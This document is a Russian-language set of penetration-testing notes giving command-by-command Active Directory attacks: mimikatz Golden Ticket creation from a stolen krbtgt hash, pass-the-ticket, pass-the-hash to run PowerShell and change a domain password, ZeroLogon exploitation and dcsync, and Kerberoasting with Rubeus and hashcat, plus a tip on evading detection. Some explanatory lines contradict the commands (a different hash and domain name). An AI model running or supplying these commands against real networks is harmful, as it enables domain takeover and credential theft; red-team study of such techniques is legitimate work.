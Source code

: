 # Golden Ticket

1. Получили доступ к домен-контроллеру через psexec. Запускаем mimikatz:
`lsadump::dcsync /user:krbtgt`

2. Забираем _Hash NTLM_
`Hash NTLM : 8bf56c4f95a012ac7191216a11b242d3`
  
3. Получаем полное имя домена:
`ipconfig /all`

4. Получаем SID домена (PS> Get-ADDomain). Создаем golden ticket на *доменной машине*

`mimikatz # kerberos::golden /rc4:8bf56c4f95a012ac7191216a11b242d3 /user:Administrator /domain:COMPANY.RU /sid:S-1-5-21-2300122653-3816496348-2769763471`

`/rc4` - we will use RC4 encryption using the NT hash we previously stole (5525e655c06299c7e4179e2cc5621fb3) as a key
`/user` - the target username is Administrator
`/domain` -  the target domain name is sec560.local
`/sid` - the target domain SID (Security Identifier)

5. Выгружаем тикет на удалённую машину и выполняет Pass-the-ticket (PtT). _сmd.exe_ нужно запустить от Администратора.

`kerberos::ptt C:\Tools\mimikatz\ticket.kirbi`

`exit`

Проверяем подгрузку тикета:

`klist`

Получаем доступ ко всем хостам:

`psexec64.exe \\dc cmd.exe`

*Созданный тикет обладает следующими ограничениями:*
- действителен в течение 10 лет;
- ServiceKey that is used is the krbtgt RC4 key (NT hash);
- A small note on evasion: If we want to make our attack more stealthy, we would choose to steal the AES keys of the krbtgt account and generate a golden ticket using AES instead of RC4.
 In a typical environment, AES is the dominant Kerberos encryption type in use and using RC4 is an anomaly in and of itself that would warrant further investigation.

# Path-the-Hash
Входные данные:
- требует права для фальсификации токена;

1. Запускаем удаленный powershell.
`sekurlsa::pth /domain:company.ru /user:kstepanovAdm /ntlm:39aced871bfb9485b15c0ddcd3b456f3 /run:"powershell.exe"`

2. Меняем пароль пользователя в домене. Пароль должен удовлетворять текущей парольной политике!
`sekurlsa::pth /domain:company.ru /user:eborisenkoAdm /ntlm:84a09c7fe2da7625051ed8dbae888073 /run:"net user buhramin Qwerty15 /domain"`

# ZeroLogon
Входные данные:
- server 2016;
- машина в домене с позможностью запуска ПО;
- отсутствуют средства защиты, которые нельзя отключить.

Замечанияпо атаке:
- может сломать домен-контроллер (перестал работать RDP к dc);
- достаточно прав обычного пользователя.

1. Попытка провести атаку dcsync.
`lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:krbtgt /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm`
Естественно, не успех.

2. Проверка возможности эксплуатации данной уязвимости.
`lsadump::zerologon /target:dc.company.ru /account:dc$`

3. Экслуатация.
`lsadump::zerologon /target:dc.company.ru /account:dc$ /exploit`

4. Атака dcsync.
`lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:<<<username>>> /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm`

5. Восстановление пароля машины штатными средствами (https://winitpro.ru/index.php/2014/09/18/vosstanovlenie-doveritelnyx-otnoshenij-bez-perevvoda-v-domen/):
	5.1. Можно проверить, что связи с dc нет, с помощью nltest /sc_verify:<имя_домена>
	5.2. Зайти от локального администратора, я включил встроенного и заходил от него (надо проверить другие варианты).
	5.3. Есть много команд и командлетов для сброса пароля, но у меня сработал только этот:
		Reset-ComputerMachinePassword -Server dc -Credential company\Adm
	5.4. В статье говорят, что перезагружаться не надо. У меня так не сработало. RDP ожил только после перезагрузки.
	5.5. Повторно проверить наличие связи с dc (см. пункт 5.1).
	
Есть скрипт restorepassword.py (https://github.com/dirkjanm/CVE-2020-1472)

# Kerberoasting

Входные данные:
	- имеется доступ к машине в домене с учетной записью пользователя.
	
Инструменты:
	1. Поиск уязвимых SPN (setspn, rubeus и много других вариантов).

Замечания:	
	- Rubeus по умолчанию собирается под 3.5 framework, а на Windows 10 дефолтный 4.5. Можно просто пересобрать, дабы ничего на атакованную машину лишнего не ставить.
	
Достоинства:
	- скрытность:
		+ запрос TGS это легитимное действие пользователя.
		+ по сравнению c online подбором пароля сервисной учетной записи в том, что после выгрузке TGS обращение NTLM-хеша проводится в оффлайне;
		
Примеры использования:
	- PT (https://youtu.be/WE8JjboUtDY?t=1962)
	
Порядок дейстия для rubeus-а:
	1. #rubeus kerberoast - выводит найденные TGS REP в консоль.
	   #rubeus kerberoast /outfile:<outputFilePath> - выводит найденные TGS REP в файл
	2. Подбор по словарю john (не получилось) и hashcat.
	

